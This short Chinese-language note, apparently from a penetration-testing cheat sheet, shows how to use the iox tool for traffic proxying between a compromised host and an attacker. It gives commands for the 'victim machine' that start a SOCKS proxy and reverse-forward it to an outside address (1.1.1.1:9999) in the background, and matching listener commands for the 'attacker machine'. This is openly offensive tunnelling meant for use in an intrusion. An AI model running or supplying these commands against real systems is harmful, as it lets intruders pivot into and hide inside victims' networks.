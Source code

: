 项目地址：https://github.com/EddieIvan01/iox

流量代理用法：
```
受害机执行：
./iox proxy -l 1080
./iox proxy -r 1.1.1.1:9999
确认执行无误后，放入后台执行：
./iox proxy -l 1080 &
./iox proxy -r 1.1.1.1:9999 &

攻击机执行：
./iox proxy -l 9999 -l 1080

注意：受害机开启代理后，需要先在攻击机开启监听，再到受害机上执行转发
```
